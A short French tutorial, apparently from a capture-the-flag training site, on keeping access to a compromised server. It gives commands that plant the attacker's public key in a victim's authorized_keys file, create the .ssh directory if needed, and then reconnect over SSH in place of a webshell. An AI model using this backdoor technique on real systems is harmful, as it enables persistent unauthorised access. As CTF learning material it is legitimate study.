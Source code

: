 ```
<!--- keywords:  --->
## SSH : Authoriser l'authentification par clef privée

Les clefs publiques permettant de se connecter en ssh sont listées, une clef par ligne, dans le fichier.
```
~/.ssh/authorized_keys
```


Une fois sur un compte utilisateur d'un serveur, injectez votre clef publique pour avoir un accès direct en ssh.
```
echo 'ssh-rsa AAAAB3xxxxxxtCHN2CpQ== yolo@yoloctf.org' >> /home/victim/.ssh/authorized_keys
```

Si le répertoire n'existe pas, il suffit de le créer:
```
mkdir /home/victim/.ssh
chmod 700 /home/victim/.ssh
echo 'ssh-rsa AAAAB3xxxxxxtCHN2CpQ== yolo@yoloctf.org' >> /home/victim/.ssh/authorized_keys
chmod 600 /home/victim/.ssh/authorized_keys
```

Laissez tomber votre webshell, et revenez en ssh:
```
ssh -i id_rsa_yolo victim@target.com
```


